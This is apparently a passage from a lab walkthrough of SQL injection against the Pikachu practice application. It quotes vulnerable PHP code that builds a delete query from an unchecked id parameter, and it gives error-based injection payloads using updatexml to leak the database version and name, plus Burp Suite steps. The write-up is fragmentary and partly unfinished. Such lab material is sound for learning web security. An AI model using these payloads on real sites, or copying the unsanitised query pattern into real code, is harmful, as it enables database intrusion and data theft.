          }
     }
}
exploit

Version 1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <Note!!! Here is your username>;#

For example mine: 1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#





The rest is a little bit behind, I'm tired

"delete" injection
Server-side core code

// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
// Did not process the incoming id, resulting in DEL injection
if(array_key_exists('id', $_GET)){
     $query="delete from message where id={$_GET['id']}";
     $result=execute($link, $query);
     if(mysqli_affected_rows($link)==1){
         header("location:sqli_del.php");
     }else{
         $html.="<p style='color: red'>Delete failed, check if the database is down</p>";
     }
}
exploit

Capture packet GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1

Parameter id can try sql error injection to construct payload

1 or updatexml(1,concat(0x7e,database()),0)

Convert the replacement ID through URL conversion encoding that comes with Burp Suite





Slightly behind

"http_header" injection
Server-side core code

if(isset($_GET['logout']) && $_GET['logout'] == 1){
     setcookie('ant[uname]','',time()-3600);
     setcookie('ant[pw]','',time()-3600);
     header("location:sqli_header_login.php");
}
?>
exploit



After logging in, go to Burp to find the login GET request, send the request to the Repeater module, remove User-Agent:, then enter 's and then run it to observe the MYSQL syntax error and find that there is a SQL injection vulnerability.

